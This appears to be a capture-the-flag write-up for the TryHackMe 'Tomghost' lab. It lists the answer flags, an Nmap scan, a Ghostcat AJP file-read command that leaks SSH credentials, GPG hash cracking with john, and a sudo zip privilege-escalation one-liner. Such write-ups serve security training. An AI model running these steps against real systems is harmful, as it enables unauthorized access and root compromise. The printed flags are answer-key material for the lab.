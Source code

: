 # Tomghost
##### Question 1: user flag
Answer
```bash
THM{GhostCat_1s_so_cr4sy}
```

##### Question 2:Root Flag
Answer
```bash
THM{Z1P_1S_FAKE}
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

Nmap Scans:
```bash

Nmap scan report for 10.10.132.127
Host is up (0.10s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

```


Get Creds
```bash
python3 ajpShooter.py http://10.10.132.127:8080 8009 /WEB-INF/web.xml read

skyfuck:8730281lkjlkjdqlksalks

```

ssh creds:
skyfuck:8730281lkjlkjdqlksalks

```bash
# Convert to john
gpg2john key.txt > hash.txt

# Crack
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
(alexandru)

# import key
gpg --import tryhackme.asc

# Decrypt creds
gpg --decrypt credential.pgp

# Merlin Creds

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

```bash
privesc - sudo


TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

```